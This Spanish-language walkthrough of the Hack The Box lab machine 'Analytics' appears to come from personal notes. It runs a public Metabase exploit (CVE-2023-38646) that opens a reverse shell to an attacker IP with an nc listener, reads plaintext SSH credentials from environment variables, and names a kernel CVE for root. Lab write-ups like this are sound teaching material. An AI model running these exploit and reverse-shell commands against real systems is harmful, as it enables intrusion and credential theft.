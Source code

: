 -----------
# Intrusion a la maquina con [[CVE-2023-38646]]

Vamos a utilizar el siguiente repositorio de [UserConecting](https://github.com/UserConnecting/Exploit-CVE-2023-38646-Metabase)
Con [[git clone]] usando `git clone https://github.com/UserConnecting/Exploit-CVE-2023-38646-Metabase` lo vamos a clonar en nuestro directorio actual de trabajo

Nos dice entremos al siguiente link http://data.analytical.htb/api/session/properties para sacar el setup-token, que lo vamos a necesitar para hacer la explotacion
![[Analytics16.png]]
*249fa03d-fd94-4d5b-b94f-b4ebf3df681f*

Ahora vamos a usar el comando `python3 metabase_exploit.py http://data.analytical.htb 249fa03d-fd94-4d5b-b94f-b4ebf3df681f revshell 10.10.16.15:443` para ejecutar el exploit, mientras estamos en escucha con [[nc -nlvp 443]] para recibir la [[Reverse shell]]

![[Analytics17.png]]

![[Analytics18.png]]
Y ya ganamos acceso como el usuario metabase, aunque como no es una tty, no nos va a dejar hacer un [[Tratamiento de la TTY]]

-----
# Escalada de privilegios al usuario metalytics con [[Informacion expuesta en variables de enterno]]

Usamos [[env]] para ver todas las variables de entorno y vemos estas dos variables

![[Analytics19.png]]

META_USER=metalytics
META_PASS=An4lytics_ds20223#

#### Conexion por [[ssh]]

![[Analytics20.png]]
![[Analytics21.png]]
Ya estamos adentro como metalytics

----
# [[Tratamiento de la TTY]]

------
# Escalada de privilegios al usuario root con [[CVE-2023-2640-CVE-2023-32629]]
